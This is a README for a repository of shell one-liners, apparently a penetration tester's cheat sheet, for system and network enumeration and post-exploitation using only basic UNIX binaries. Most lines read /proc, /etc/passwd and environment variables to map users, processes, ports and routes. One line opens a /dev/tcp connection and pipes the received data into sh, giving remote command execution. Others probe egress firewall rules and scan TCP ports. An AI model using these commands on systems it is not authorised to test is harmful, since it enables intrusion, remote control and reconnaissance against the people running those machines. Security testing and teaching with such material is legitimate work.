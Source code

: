 # lcdbins

An **lcdbin** is a lowest-common denominator binary - one which, with rare exceptions, should be present on any UNIX-based operating system. This repository is a collection of oneliners that use lcdbins to perform enumeration and post-exploitation activities that you'd normally use other tools for - such as id, netstat or python. Use them when you find yourself in a stripped-down environment where the usual tools aren't available.

Here is a list of the binaries used by the oneliners in this repository:

- awk
- bc
- cat
- echo
- grep
- ls
- printf
- read
- sed
- sort

Where possible alternatives have been provided in case one binary is unavailable on your specific system. Greetz to moogz for assistance and contributions.

## System Enumeration

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo uid $uid gid $gid
```

Get group membership for uid

```shell
uid=1000; user=$(awk -F : -v x="$uid" '{if($3==x) print $1}' /etc/passwd); grep $user /etc/group
```

List environment variables

```shell
sed 's/\x0/\n/g' /proc/self/environ
```

List information about processes

```shell
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "name:") print $2 }'); uid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo $pid $name $uid $gid; done;
```

List mounted filesystems

```shell
cat /proc/mounts
```

## Network Enumeration

Get local network interface addresses from /proc/net/fib_trie

```shell
awk '/32 host/ { print f } {f=$2}' /proc/net/fib_trie | sort -u
```

Parse listening TCP ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do printf "%d\n" "0x$i"; done | sort -un
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse listening UDP ports on /proc/net/udp

```shell
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do printf "%d\n" "0x$i"; done | sort -un
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

Print the ARP table

```shell
cat /proc/net/arp
```

## Network Connections (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

## Miscellaneous

Get all IP addresses in a directory

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```
